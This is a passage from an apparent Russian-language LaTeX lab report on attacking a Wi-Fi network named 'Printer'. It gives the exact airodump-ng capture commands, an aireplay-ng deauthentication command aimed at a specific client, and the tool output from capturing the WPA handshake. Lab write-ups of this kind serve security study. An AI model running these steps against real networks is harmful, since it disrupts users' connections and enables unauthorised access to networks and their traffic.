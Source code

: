 Нас интересует сеть Printer.

Запустим сбор трафика для получения аутентификационных сообщений:

\begin{lstlisting}
artyom@artyom-Inspiron-7348:~$ sudo airodump-ng mon0 --write airdump --bssid 12:FE:ED:E5:BD:01 -c 6 
\end{lstlisting}

\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{figures/2.png}
	\caption{airodump}
\end{figure}

Произведем деаутентификацию одного из клиентов (клиента с MAC-адресом 
CC:FA:00:AB:87:F0), до тех пор, пока не удастся собрать необходимых для 
взлома аутентификационных сообщений.
\begin{lstlisting}
artyom@artyom-Inspiron-7348:~$ sudo aireplay-ng --ignore-negative-one --deauth 150 -a 12:FE:ED:E5:BD:01 -h CC:FA:00:AB:87:F0 mon0
06:25:42  Waiting for beacon frame (BSSID: 12:FE:ED:E5:BD:01) on channel 6
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
06:25:42  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:25:43  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:25:43  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:25:53  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:26:03  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:26:04  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
\end{lstlisting}
В результате перехватываем пакет handshake:
\begin{lstlisting}
artyom@artyom-Inspiron-7348:~$ sudo airodump-ng mon1 --bssid 12:FE:ED:E5:BD:01 -c 6 --write dump --ignore-negative-one
\end{lstlisting}

\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{figures/3.png}
	\caption{airodump}
\end{figure}

